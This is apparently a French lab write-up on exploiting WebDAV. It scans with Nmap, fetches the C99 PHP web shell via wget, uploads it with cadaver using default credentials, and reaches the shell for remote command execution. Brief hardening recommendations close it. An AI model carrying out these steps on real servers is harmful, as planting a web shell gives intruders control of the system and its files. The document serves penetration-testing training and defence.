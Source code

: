 # Vérifier si WebDAV est activé:

## Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
WebDAV est actif:
WebDAV is enabled

## Télécharge le C99 PHP Shell avec wget :

```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilisation de Cadaver, un client WebDAV, pour envoyer le shell à la cible.

```bash
cadaver http://10.6.0.7/dav
```

### Login :

admin:admin

msfadmin:msfadmin

webdav:webdav

Une fois connecté dans cadaver, tape :

```bash
put c99.php
```
Si l’upload réussit, vérifie avec :

```bash
ls
```

Dans le navigateur, ouvre :

http://10.6.0.7/dav/c99.php <br>

![Cela affichera l’interface de C99 Shell, qui te permet](Images/davweb.png)

Avec WebDAV actif on peut:

- D’exécuter des commandes (system, exec, shell_exec)
- D’accéder aux fichiers du serveur
- D’uploader et télécharger des fichiers

## Recommandation de sécurité
- Désactivé WedDAV
- Supprimer WedDAV
- Restreindre l'accès
- Ajouter une règle sur le pare-feu